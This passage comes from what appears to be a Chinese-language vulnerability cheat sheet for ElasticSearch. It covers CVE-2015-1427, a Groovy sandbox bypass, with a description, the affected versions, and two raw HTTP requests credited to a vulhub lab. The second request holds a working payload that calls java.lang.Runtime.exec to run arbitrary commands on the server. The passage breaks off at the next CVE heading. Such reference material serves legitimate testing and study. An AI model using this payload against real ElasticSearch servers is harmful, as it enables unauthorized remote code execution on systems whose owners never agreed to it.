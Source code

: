         }
    }
    ```

**CVE-2015-1427 Groovy 沙盒绕过 && 代码执行漏洞**
- 描述

    CVE-2014-3120 后，ElasticSearch 默认的动态脚本语言换成了 Groovy，并增加了沙盒，但默认仍然支持直接执行动态语言。

- 影响版本
    - ElasticSearch < 1 .3.7
    - ElasticSearch 1.4.0 ~ 1.4.2

- 相关文章
    - [Remote Code Execution in Elasticsearch - CVE-2015-1427](https://jordan-wright.com/blog/2015/03/08/elasticsearch-rce-vulnerability-cve-2015-1427/)

- POC | Payload | exp

    来源: [ElasticSearch Groovy 沙盒绕过 && 代码执行漏洞 (CVE-2015-1427) 测试环境](https://vulhub.org/#/environments/elasticsearch/CVE-2015-1427/)

    由于查询时至少要求 es 中有一条数据,所以发送如下数据包,增加一个数据:
    ```
    POST /website/blog/ HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 25

    {
    "name": "test"
    }
    ```

    然后发送包含 payload 的数据包,执行任意命令:
    ```
    POST /_search?pretty HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/text
    Content-Length: 156

    {"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"}}}
    ```

**CVE-2015-3337 目录穿越漏洞**
- 描述
